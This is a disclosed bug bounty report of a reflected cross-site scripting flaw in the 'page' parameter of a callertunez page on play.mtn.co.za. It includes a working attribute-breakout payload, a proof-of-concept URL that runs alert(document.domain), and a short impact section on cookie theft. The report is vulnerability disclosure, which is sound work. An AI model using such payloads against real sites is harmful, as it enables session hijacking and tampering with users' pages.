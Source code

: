 # Reflected XSS on play.mtn.co.za

## Report Details
- **Report ID**: 1061199
- **URL**: https://hackerone.com/reports/1061199
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-17T20:43:20.317Z
- **Disclosed**: 2021-08-14T18:45:20.322Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
hello dear

I have found Reflected XSS on play.mtn.co.za
parameters injectable ?page=2

my payload "><img src=x onerror=prompt``>;<video>

URL: https://play.mtn.co.za/callertunez/?page=2%27%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E&search=A

{F1120432}

## Impact

Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker.

## Attachments
- zzzzzzzzzzzzzzzzzzzzzzz.PNG

